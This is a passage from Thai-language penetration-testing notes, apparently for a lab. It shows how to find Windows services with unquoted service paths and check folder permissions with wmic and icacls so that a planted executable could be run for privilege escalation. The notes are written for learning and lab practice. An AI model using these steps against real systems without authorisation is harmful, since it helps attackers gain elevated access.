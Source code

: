 สุดท้ายคือเปิด FileZilla ก็จะเห็น dave3 ด้วยคำสั่ง net user 

[[Unquoted Service Paths]]

```powershell
# คำสั่งสำหรับตรวจสอบ Service ที่มีช่องโหว่ Unquoted Service Paths และไม่อยู่ใน Path C:\Windows 

wmic service get name,pathname |  findstr /i /v "C:\Windows\\" 


edgeupdatem                                "C:\Program Files (x86)\Microsoft\EdgeUpdate\MicrosoftEdgeUpdate.exe" /medsvc
---------------------------------------------------------------------
# จากผลลัพธ์จะเห็นว่า Service ชื่อ GammaService นั้นมีช่องโหว่ Unquoted Service Path
GammaService                               C:\Program Files\Enterprise Apps\Current Version\GammaServ.exe
---------------------------------------------------------------------

# ทดสอบเปิดและปิด Service ดังกล่าว 
Start-Service GammaService
Stop-Service GammaService
Restart-Service GammaService

# จากช่องโหว่ทำให้เกิดผละกระทบที่น่าเป็นไปได้คือ 
# C:\Program.exe
# C:\Program Files\Enterprise.exe
# C:\Program Files\Enterprise Apps\Current.exe
# C:\Program Files\Enterprise Apps\Current Version\GammaServ.exe


```

เราสามารถตรวจสอบสิทธิ์ของแต่ละ Path ที่เป็นช่องโหว่ได้ 
```powershell
PS C:\Users\steve> icacls "C:\"
C:\ BUILTIN\Administrators:(OI)(CI)(F)
    NT AUTHORITY\SYSTEM:(OI)(CI)(F)
    BUILTIN\Users:(OI)(CI)(RX)
    NT AUTHORITY\Authenticated Users:(OI)(CI)(IO)(M)
    NT AUTHORITY\Authenticated Users:(AD)
    Mandatory Label\High Mandatory Level:(OI)(NP)(IO)(NW)
    
Successfully processed 1 files; Failed processing 0 files
    
PS C:\Users\steve>icacls "C:\Program Files"
C:\Program Files NT SERVICE\TrustedInstaller:(F)
                 NT SERVICE\TrustedInstaller:(CI)(IO)(F)
                 NT AUTHORITY\SYSTEM:(M)
                 NT AUTHORITY\SYSTEM:(OI)(CI)(IO)(F)
                 BUILTIN\Administrators:(M)
                 BUILTIN\Administrators:(OI)(CI)(IO)(F)
                 BUILTIN\Users:(RX)
                 BUILTIN\Users:(OI)(CI)(IO)(GR,GE)
                 CREATOR OWNER:(OI)(CI)(IO)(F)

PS C:\Users\steve> icacls "C:\Program Files\Enterprise Apps"
C:\Program Files\Enterprise Apps NT SERVICE\TrustedInstaller:(CI)(F)
                                 NT AUTHORITY\SYSTEM:(OI)(CI)(F)
                                 BUILTIN\Administrators:(OI)(CI)(F)
                                 BUILTIN\Users:(OI)(CI)(RX,W) ***************
                                 CREATOR OWNER:(OI)(CI)(IO)(F)
                                 APPLICATION PACKAGE AUTHORITY\ALL APPLICATION PACKAGES:(OI)(CI)(RX)
                                 APPLICATION PACKAGE AUTHORITY\ALL RESTRICTED APPLICATION PACKAGES:(OI)(CI)(RX)
```
